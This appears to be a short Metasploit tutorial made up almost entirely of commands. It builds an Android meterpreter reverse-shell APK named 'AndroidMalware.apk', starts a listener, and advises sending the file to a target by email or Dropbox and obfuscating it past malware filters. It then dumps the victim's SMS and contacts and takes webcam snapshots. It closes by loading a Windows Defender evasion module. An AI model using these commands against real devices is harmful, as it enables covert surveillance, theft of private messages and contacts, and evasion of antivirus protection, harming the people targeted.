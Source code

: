  

msfvenom create custom payloads.

  

    msf6> msfvenom -p android/meterpreter/reverse_tcp LHOST=192.3.3.3 LPORT=6996 R >AndroidMalware.apk

  

We set up an .rc script to automatically start and open a listener to accept outside connections to our Metasploit.

    msf6> resource handler_http.rc

if you don't have a listener script, you can start a listener by entering the following commands;

    msf6> use exploit/multi/handler
    
    msf6>set PAYLOAD android/meterpreter/reverse_tcp
    
    msf6> set LHOST 192.1.1.1
    
    msf6> set LPORT 6996
    
    msf6> exploit

You will need to send AndroidMalware.apk file to the target via email or DropBox or other means. It's important to note that this file will likely be flagged by Gmail and other email services as malware. As a result, consider re-encoding the payload with OWASP-ZSC or other obfuscation software such as shellter or Veil-Evasion.

  

    meterpreter> sysinfo
    
    meterpreter> help

  

**Gathering data from the Android device**

    meterpreter> dump_sms
    
    meterpreter> dump_contacts
    
    meterpreter> webcam_list
    
    meterpreter> webcam_snap 1

  

**The New Evasion Modules**

    msf6> show evasion

    kali> mousepad /usr/share/metasploit-framework/modules/evasion/windows/windows_defender_exe
    
      
    
    msf6> search type:evasion
    
    msf6> use evasion/windows/windows_defender_exe
    
    msf6> info
    
    msf6> set FILENAME example
    
    msf6> set PAYLOAD windows/meterpreter/reverse_https
    